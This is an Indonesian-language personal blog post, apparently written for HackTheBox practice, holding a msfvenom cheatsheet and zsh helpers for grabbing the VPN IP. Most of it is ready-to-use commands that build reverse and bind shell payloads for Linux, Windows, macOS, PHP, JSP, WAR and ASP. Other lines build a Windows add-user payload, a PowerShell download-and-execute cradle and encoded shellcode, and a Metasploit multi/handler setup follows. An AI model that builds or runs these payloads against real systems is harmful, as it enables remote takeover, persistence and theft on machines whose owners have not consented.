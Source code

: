```yaml
---
layout: post
title: "Note: msfvenom cheatsheet"
date: 2022-10-13
---
```


sudah saya bilang saya orangnya mageran, dan ingin mengumpulkan sebanyak mungkin resource yang sering lupa, walaupun sudah menggunakan `kitty` sebagai terminal dan `zsh` sebagai shell utama.
tetap saja saya sering saja lupa.

sebelum itu saya sudah mencoba membuat `export` variable ke `.zshrc` agar tidak menggunakan perintah `ip add`, terus terusan. Dan saya menginstall `xclip` untuk mengirim argument ke clipboard.
dan mencoba menjadikannya sebagai alias `cboard` untuk memendekkanya.
```sh
HTB_HOST=$(ip add show tun0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # htb ip address
CUSTOM_HOST=$(ip add show vboxnet0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # biar ga repot aja sih while playing custom virtual machines.
```
ini dia tampaknya.
```sh
alias cboard="xclip -sel clipboard"
```
## msfvenom cheatsheet
```
msfvenom -l payloads 
msfvenom -p PAYLOAD --list-options 
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf # Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf  #Linux reverse shell x64 single stage 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter reverse shell 
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe  #Windows Meterpreter #http reverse shell 
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter bind shell 
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Multi Stage 
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Single Stage 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe  #Windows add user 
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Reverse Shell 
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Bind shell 
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py  #Python Shell 
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh  #BASH Shell 
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl  #PERL Shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp  #ASP Meterpreter shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp  #JSP Shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war  #WAR Shell 
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php  pbcopy && echo '?php '  tr -d '\n' shell.php && pbpaste shell.php  #Php Meterpreter Shell 
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php  #Php Reverse Shell 
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python  #Windows Exec Nishang Powershell in python 
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"  #Bad characters shikata_ga_nai 
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"  #Bad characters fnstenv_mov 
```
## multi handler
```
msf> use exploit/multi/handler  
msf> set payload windows/meterpreter/reverse_tcp  
msf> set lhost <IP>  
msf> set lport <PORT>  
msf> set ExitOnSession false  
msf> exploit -j  
```
## references
* <https://github.com/frizb/MSF-Venom-Cheatsheet>
* <https://pentestwiki.org/msfvenom-payloads-cheat-sheet/>

